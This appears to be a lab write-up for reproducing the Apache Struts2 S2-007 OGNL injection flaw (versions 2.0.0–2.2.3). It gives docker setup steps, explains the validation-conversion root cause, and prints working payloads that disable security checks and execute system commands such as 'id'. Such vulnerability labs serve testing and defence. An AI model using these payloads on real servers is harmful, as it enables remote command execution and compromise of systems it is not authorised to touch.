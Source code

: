 # S2-007 Remote Code Execution Vulnerability

Impact version: 2.0.0 - 2.2.3
Vulnerability details: http://struts.apache.org/docs/s2-007.html

## Test environment construction

```
Docker-compose build
Docker-compose up -d
```

## Principle

Reference http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

When the validation rule `<ActionName>-validation.xml` is configured, if the type validation conversion fails, the backend will by default splicing the user-submitted form values ​​through strings, then performing an OGNL expression parsing and returning. For example here is a UserAction:

```java
(...)
Public class UserAction extends ActionSupport {
Private Integer age;
Private String name;
Private String email;

(...)
```

Then configure UserAction-validation.xml:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
"-//OpenSymphony Group//XWork Validator 1.0//EN"
"http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
<field name="age">
<field-validator type="int">
<param name="min">1</param>
<param name="max">150</param>
</field-validator>
</field>
</validators>
```

When the user submits age as a string instead of an integer value, the backend splices `"'" + value + "'"` with the code and then parses the OGNL expression. To make a successful use, you only need to find a form field configured with similar validation rules to make a conversion error. You can inject any OGNL expression by means of SQLi-injected single quotes.

Because the affected version is Struts2 2.0.0 - Struts2 2.2.3, here is the Payload that bypasses the security configuration for command execution (**Magnetic Calculator, cannot run in this project environment**):

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@ getRuntime().exec("open /Applications/Calculator.app")) + '
```

## Exploit

@rickgray In the original text only gave the POC of the bomb calculator, I gave the EXP to execute arbitrary code:

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons. io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

Pass Exp into the input box (age) that can be used to get the command execution result:

![](1.jpeg)